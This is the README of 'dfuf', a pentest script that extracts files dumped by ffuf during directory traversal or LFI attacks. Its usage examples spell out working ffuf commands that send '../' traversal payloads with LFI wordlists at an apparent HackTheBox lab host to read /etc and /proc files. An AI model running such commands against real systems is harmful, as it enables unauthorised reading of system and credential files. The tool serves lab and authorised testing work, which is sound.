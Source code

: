 # dfuf - Dump Faster U Fool

## About

Utilize ffuf to dump files via Directory Traversal / LFI in a breeze.

This simple script can extract files from ffuf request dump (`-od` option).

**ffuf** should be faster than any LFI dumpers available on the public.

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

## Demo

[![asciicast](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj.svg)](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj)

## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w '/usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt' -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\n$pid | "; cat $0' {} \; | sort -s -n -k 1,1
```

## License




